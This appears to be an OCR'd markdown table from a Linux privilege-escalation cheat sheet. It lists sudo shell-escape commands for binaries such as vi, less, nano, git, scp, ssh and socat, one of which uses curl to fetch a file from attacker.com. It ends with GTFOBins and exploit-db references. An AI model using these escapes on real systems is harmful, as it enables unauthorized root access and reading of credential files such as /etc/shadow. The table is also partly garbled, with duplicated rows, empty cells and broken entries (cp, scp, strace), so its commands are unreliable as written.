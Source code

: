 | vi                                    | sudo vi -c ':!/bin/sh' /dev/null                                                    |
| more                                  | TERM= sudo more /etc/profile <br> !/bin/sh                                         |
| less                                  | sudo less /etc/profile <br> !/bin/sh                                               |
| nano                                  | sudo nano <br> ^R^X <br> reset; sh 1>&0 2>&0                                       |
| cp                                    | sudo cp /bin/sh /bin/cp <br> sudo cp                                               |
| cat                                   | LFILE=file_to_read <br> sudo cat "$LFILE"                                          |
| bash                                  | sudo bash                                                                          |
| ash                                  |  sudo ash                                                                           |
| sh                                   | |
| csh                                  | |
| curl                                 | URL=<http://attacker.com/file_to_get> <br> LFILE=file_to_save <br> sudo curl $URL -o $LFILE |
| dash                                 | |
| pico                                 | sudo pico <br> ^R^X <br> reset; sh 1>&0 2>&0                                         |
| nano                                 |  sudo nano <br> ^R^X <br> reset; sh 1>&0 2>&0                                        |
| tclsh                                | sudo tclsh <br> exec /bin/sh <@stdin >@stdout 2>@stderr                              |
| git                                  | sudo PAGER='sh -c "exec sh 0<&1"' git -p help <br> or <br> sudo git -p help config <br> !/bin/sh |
| scp                                  | TF=$(mktemp) <br> echo `'sh 0<&2 1>&2' > $TF` <br> chmod +x "$TF" <br> sudo scp -S $TF x y: |
| expect                               | sudo expect -c 'spawn /bin/sh;interact'                                              |
| ftp                                  | sudo ftp <br> !/bin/sh                                                               |
| socat                                | sudo socat stdin exec:/bin/sh                                                        |
| script                               | sudo script -q /dev/null                                                             |
| ssh                                  | sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x                                           |
| zsh                                  | sudo zsh                                                                             |
| tclsh                                | sudo tclsh <br> exec /bin/sh <@stdin >@stdout 2>@stderr                              |
| strace                               |  Write and compile a a SUID SUID binary c++ program <br> strace chown root:root suid <br> strace chmod u+s suid <br> ./suid        |
| npm                                  |  ln -s /etc/shadow package.json && sudo /usr/bin/npm i *                            |
| rsync                                |                                                                                     |
| tar                                  |                                                                                     |
|Screen-4.5.00     | <https://www.exploit-db.com/exploits/41154/>        |

*Note:* You can find an incredible list of Linux binaries that can lead to privledge escalation at the GTFOBins project website here: <https://gtfobins.github.io/>
